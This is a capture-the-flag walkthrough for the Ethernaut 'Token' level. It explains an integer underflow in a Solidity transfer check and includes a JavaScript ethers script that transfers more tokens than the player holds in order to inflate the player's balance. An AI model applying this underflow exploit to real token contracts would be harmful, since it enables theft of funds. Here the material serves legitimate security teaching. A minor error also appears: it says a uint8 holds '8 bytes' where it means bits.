 ```yaml
---
description: >-
  In Ethernaut's Token, we have our assumptions about unsigned integers
  challenged.
---
```


# 5 - Token

In [this level](https://ethernaut.openzeppelin.com/level/0x63bE8347A617476CA461649897238A31835a32CE) we are given 20 tokens and tasked with obtaining more.

### Hints

<details>

<summary>Hint One</summary>

The thing to keep in mind about this level is we're being asked to transfer _more_ _tokens_ than we actually have.

</details>

<details>

<summary>Hint Two</summary>

How might Solidity handle a "negative" unsigned integer?

</details>

### Full Walkthrough

The contract's `transfer` function requires that the requested amount of tokens to transfer is not greater than the total balance of the message sender's account. This check, however, has been  implemented in an unsafe way.&#x20;

```solidity
function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
}
```

In Solidity versions prior to 0.8.0, `uint` types were susceptible to **overflow** and **underflow**. This means that when their value was incremented or decremented outside the bounds of what their size could contain, the value would simply roll over or roll under, like an odometer.

{% hint style="info" %}
**Overflow and Underflow**

In integer overflow, once an unsigned integer reaches its maximum byte size, the next element added will return the first variable element. For example, a `uint8` can hold 8 bytes of data, meaning it can store any number between 0 and 255. If a `uint8` has the value of 255 and 1 is added to it, it will _overflow_ to 0.

Underflow is just the opposite, if a `uint8` has the value of 0 and 1 is subtracted from it, it will _underflow_ to 255.
{% endhint %}

Because the require statement subtracts `_value` from `balances[msg.sender]`, if we simply supply a value that is greater than the balance, the result of the subtraction will underflow, in this case to 2\*\*256 - 1. We just need to transfer this value to any address other than our own and our account balance becomes the result of the underflow, an enormous number of tokens!&#x20;

### Scripted Solution

```javascript
const fs = require('fs')
const ethers = require('ethers')
require('dotenv').config({ path: './.env' })

/**
 * Initialize Ethers objects needed to interact with the blockchain and
 * contract.
 */
async function setup(contractName) {
  // Create provider - a read-only abstraction to access blockchain data
  const provider = new ethers.providers.InfuraProvider(process.env.NETWORK)
  // Create player wallet
  const playerWallet = new ethers.Wallet(process.env.PRIVATE_KEY)
  // Create player wallet signer - an abstraction of an Ethereum account
  const playerWalletSigner = await playerWallet.connect(provider)
  // Create contract instance - an abstraction of the deployed contract code
  const contractAbi = fs.readFileSync(`./${contractName}.abi`, 'utf8')
  const contract = new ethers.Contract(
    process.env.CONTRACT_ADDRESS,
    contractAbi,
    playerWalletSigner
  )

  return { provider, playerWallet, playerWalletSigner, contract }
}

/**
 * Run contract exploit.
 */
async function main() {
  // Get Ethers objects needed to interact with the blockchain and contract
  const {
    playerWallet,
    contract: tokenContract,
  } = await setup('Token')

  // Get player address initial balance
  const playerAddressBalance = await tokenContract.balanceOf(
    playerWallet.address
  )
  console.log(`Player address initial balance: ${playerAddressBalance}.`)

  // Transfer balance + 1 tokens to a random wallet
  const tokensToTransfer = Number(playerAddressBalance) + 1
  console.log(`Transferring ${tokensToTransfer} tokens to player address...`)
  await tokenContract.transfer(process.env.RANDOM_ADDRESS, tokensToTransfer)
}

main()
  .then(() => process.exit(0))
  .catch((error) => {
    console.error(error)
    process.exit(1)
  })
```

### Key Takeaways

* In older versions of Solidity, **uint** types were vulnerable to value **overflow** and **underflow**.
